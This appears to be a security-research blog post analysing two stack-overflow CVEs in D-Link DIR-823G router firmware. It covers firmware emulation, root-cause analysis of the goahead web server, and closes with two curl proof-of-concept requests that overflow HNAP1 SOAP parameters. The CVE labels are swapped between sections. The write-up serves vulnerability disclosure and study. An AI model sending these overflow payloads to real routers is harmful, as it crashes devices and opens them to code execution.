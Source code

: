 ```yaml
---
title: "Dlink router CVEs"
classes: wide
header:
  teaser: /assets/images/vulnerability_research/CVE-2023-43241/crash.png
ribbon: DodgerBlue
description: "Detailed analysis of multiple CVES that can lead to RCE in Dlink routers via stack overflow"
categories:
  - vulnerability  research
toc: true
---
```


# Summery

A Deep dive into CVE-2023-43241 CVE-2023-43235 which are a stack overflow in D-Link DIR-823G v1.0.2B05 router firmware, going to discuss extracting and emulating firmware and root cause analysis.

# Description

- CVE: CVE-2023-43241 , CVE-2023-43235

- Title: stack overflows in "D-Link DIR-823G v1.0.2B05" router firmware

- Platform / Vendor: Dlink/ router  

- Summary: D-Link DIR-823G v1.0.2B05 was discovered to contain a stack overflow via parameter TXPower and GuardInt in SetWLanRadioSecurity, StartTime and EndTime in SetWifiDownSettings.

![Error](/assets/images/vulnerability_research/CVE-2023-43241/adv.png)

![Error](/assets/images/vulnerability_research/CVE-2023-43241/adv1.png)

# Background story

The firmware is an operating system customized for an embedded device just with the capabilities that the device needs, this is to minimize size and raise the performance and you can imagine what else can be an advantage of this customization, in a lot of cases the firmware is based on Linux kernel, this kernel is customized and but inside the device chip, to get this firmware we have to options...

- Use any communication port on the chip to extract the firmware.

- The firmware is publicly accessible on the internet.

and to run it we have also two options...

- Use any communication port on the chip to get a shell on the device

- Emulate the firmware in an Emulation Application

Most firmware is compiled to run on `MIPS` architecture which can't run directly on our `x86` architecture, also Vmware and virtualbox can't used for that as they can't translate architecture-specific OPcode to another one, the most famous emulator that can do that is `qemu` which is translating machine code from architicure to another.

# Environment Setup

There is a Linux distro called [Attify OS](https://www.attify.com/attifyos) which is made specifically for firmware and hardware hacking It contains most of the tools we will need to be installed and configured, definitely you can install only the tools only you need for analyzing this vulnerability but this way will save you a lot of time troubleshooting.

Our firmware is publically available on "Dlink" site [here](http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-823G) just download the version mentioned on the advisory and copy it to your investigation area.

![Error](/assets/images/vulnerability_research/CVE-2023-43241/download.png)

Then go to `Firmware-analysis-toolkit` folder and run the following command...

```sh
./fat.py "your firmware image"
```

![Error](/assets/images/vulnerability_research/CVE-2023-43241/fat.png)

This will result in extracting the firmware, giving you an Image ID (we will need it later), and creating a network interface(this is your Router IP remember it).

Now just by pressing enter the emulated hardware will start booting up, just give it a minute to finish the boot process and navigate to the IP address mentioned before.

![Error](/assets/images/vulnerability_research/CVE-2023-43241/wizard.png)

based on your preferred language use Google Translate for that, press skip, and log in with blank credentials. 

Now our Emulator is working perfectly fine, we need then to extract the file system to get the code and start looking for our vulnerability.

Go to "home/iot/tools/firmware-analysis-toolkit/firmadyne/scripts" and execute the script "mount.py" as root passing the Image ID mentioned before as a parameter.

![Error](/assets/images/vulnerability_research/CVE-2023-43241/mount.png)

Then navigate to "/home/iot/tools/firmware-analysis-toolkit/firmadyne/scratch/1/image" and you are inside your firmware's filesystem.

![Error](/assets/images/vulnerability_research/CVE-2023-43241/filesys.png)

# root cause analysis

`CVE-2023-43241`

The advisory description mentioned that the overflow is in TXPower and GuardInt parameters so we can search across the web interface files where they exist.

![Error](/assets/images/vulnerability_research/CVE-2023-43241/txpower.png)

we can see that this parameter gets assigned in "Advwireless.html" page as part of the "setting" object, then set to "SetWLanRadioSettings" SOAP action and sent to "http://purenetworks.com/HNAP1/" end point.

Attify OS had burpsuit setup so we can open it, configure the browser to proxy traffic throw it, and intercept the traffic out of "Advwireless.html" page.

![Error](/assets/images/vulnerability_research/CVE-2023-43241/proxy.png)

![Error](/assets/images/vulnerability_research/CVE-2023-43241/advwireless.png)

![Error](/assets/images/vulnerability_research/CVE-2023-43241/param.png)

Then this request gets handled by "goahead" binary 

![Error](/assets/images/vulnerability_research/CVE-2023-43241/go.png)

but how the request is handled is the cause of the problem.

![Error](/assets/images/vulnerability_research/CVE-2023-43241/tx.png)

It gets the data inside "TXPower" which is attacker-controlled then calculates its size which means it's also attacker-controlled then copies in a fixed size buffer whatever size of data the attacker supplies so we can overflow the buffer and corrupt the memory.

also for "GuardInt".

![Error](/assets/images/vulnerability_research/CVE-2023-43241/guard.png)

`CVE-2023-43235`

The same concept exactly applies to the StartTime and EndTime parameters.

![Error](/assets/images/vulnerability_research/CVE-2023-43241/time.png)

# Reproducing the vulnerability

*CVE-2023-43235*

################### video here #######################

we can see that we can overwrite the return address "ra"

![Error](/assets/images/vulnerability_research/CVE-2023-43241/crash.png)

*CVE-2023-43241*

![Error](/assets/images/vulnerability_research/CVE-2023-43241/crash2.png)

# POC

*CVE-2023-43235*

```sh
curl http://192.168.0.1/HNAP1/ -H 'SOAPAction: "http://192.168.0.1/HNAP1/SetWLanRadioSecurity"' -d '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetWLanRadioSecurity xmlns="http://192.168.0.1/HNAP1/"><SetMultipleActions><SetWLanRadioSecurity><RadioID>1</RadioID><Radio>1</Radio><TXPower>######A100#####</TXPower><SSID>1</SSID><SSIDBroadcast>1</SSIDBroadcast><ChannelWidth>1</ChannelWidth><Key>1</Key><GuardInt>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaaa</GuardInt></SetWLanRadioSecurity></SetMultipleActions></SetWLanRadioSecurity></soap:Body></soap:Envelope>'
```

*CVE-2023-43241*
```sh
curl  "http://192.168.0.1/HNAP1/"  -H 'SOAPAction: "http://purenetworks.com/HNAP1/SetWifiDownSettings"' -H "Cookie: timeout=132" -d '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetWifiDownSettings xmlns="http://purenetworks.com/HNAP1/"><ControlMode>true</ControlMode><ControlRule><Enable>true</Enable><StartTime>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaaaaa</StartTime><EndTime>23:59:00</EndTime><Week>Mon,Wed</Week></ControlRule></SetWifiDownSettings></soap:Body></soap:Envelope>'
```

# References

[https://nvd.nist.gov/vuln/detail/CVE-2023-43241](https://nvd.nist.gov/vuln/detail/CVE-2023-43241)

[https://nvd.nist.gov/vuln/detail/CVE-2023-43235](https://nvd.nist.gov/vuln/detail/CVE-2023-43235)
